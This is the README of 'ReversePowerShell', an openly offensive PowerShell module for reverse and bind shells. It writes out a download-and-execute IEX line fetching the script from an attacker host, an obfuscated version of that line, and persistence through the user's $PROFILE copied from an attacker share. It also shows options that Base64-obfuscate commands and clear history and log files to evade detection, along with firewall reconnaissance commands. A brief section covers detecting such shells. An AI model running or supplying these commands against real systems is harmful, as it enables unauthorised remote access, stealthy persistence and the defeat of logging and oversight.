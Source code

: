 # ReversePowerShell
__See "Command Usage:" section below for command usage details__
### [NOW IN POWERSHELL GALLERY!!!](https://www.powershellgallery.com/packages/ReversePowerShell/1.3.2)
```powershell
# Install Module
Install-Module ReversePowerShell

# Update Module
Update-Module -Name ReversePowerShell
# OR
Install-Module ReversePowerShell -Force
```
---

Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used to connect to Start-Listener as well as netcat and Metasploit modules or whatever other listeners you use. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.<br>
Install this module by placing the cloned folder "__ReversePowerShell__" inside the following directory location. You can view all available Module install directories by issung the command ```$env:PSModulePath```<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"__ <br>
 For PowerShell Core v6 the location of this module will need to be<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"__<br>

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX), this module (ReversePowerShell) can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")

# To obfuscate the above command you can do something like the below command
& (`G`C`M *ke-E*) '(& (`G`C`M *ew-O*) `N`E`T`.`W`E`B`C`L`I`E`N`T)."`D`O`W`N`L`O`A`D`S`T`R`I`N`G"('htt'+'p://'+'127.0.0.1/ReversePowerShell.ps1')
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a target machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
If (!(Test-Path -Path $PROFILE)) { New-Item -Path $PROFILE -ItemType File -Force }
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
> Adding this module into the PowerShell $PROFILE will import all of the commands every time the executing user opens a PowerShell session. This means you will need to open a new PowerShell session after doing this in order to access the commands. Just like using ```source .bashrc``` to apply changes to the ~/.bashrc file in a linux terminal you can reload the profile by doing the following.
```powershell
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1
powershell.exe # Maybe but not sure on this one
& $PROFILE
```

# Command Usage:

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. Invoke-ReversePowerShell, netcat, ncat, metasploit, and other tools can be used to connect to this bind shell. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

### INVOKE-REVERSEPOWERSHELL USAGE INFORMATION
__SPECIAL FEATURES OF INVOKE-REVERSEPOWERSHELL__
- __Re-Connect Loop__ This cmdlet automatically attempts to reconnect to a listener if a session get disconnected. As long as the powershell process is running it will attempt to connect back to a listener every 30 seconds. In available situations a 30 second timer is displayed. The countdown timer can be viewed in the image below.
![Reconnection Timer Loop](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/ReconnectTimer.png)
- __Obfuscation__ parameter can be used to obfuscate executed commands using Base64. The Event Viewer will show logs such as the ones in the below image when this parameter is defined.
![Obfuscation in Event Viewer](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/PSObfuscatedEventLog.png)
- __Clear History__ parameter can be used to clear the current sessions command history and log file. The purpose of this is to help keep clear text passwords from appearing in log files.

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089
```

In the below command the listening port 8089 on 192.168.0.10 is connected too. When the session is exited the -ClearHistory parameter specified attempts to clear your sessions command history as well as clear the powershell log file.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
```

The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089. The -Obfuscate parameter obfuscates the commands executed using Base64 so they do not appear in clear text in the Event Log.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
```

#### ISSUE BIND SHELL CONNECTION
The below command is used to connect to a listening Bind Shell port. Any of the special parameters can be used to with the Bind parameter set name as well.
```powershell
Invoke-ReversePowerShell -Bind -IpAddress 192.168.0.10 -Port 8089
```

#### FIND EVIDENCE OF REVERSE SHELL CONNECTION
```powershell
# Check the localhost for evidence of reverse shell in the event logs
Find-ReversePowerShell

# Checks remote computer DC01 for evidence of a shell connection and saves the event results to C:\Temp\results.xml
Find-ReverseShell -ComputerName DC01.domain.com -FilePath C:\Temp\Results.xml
```

---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
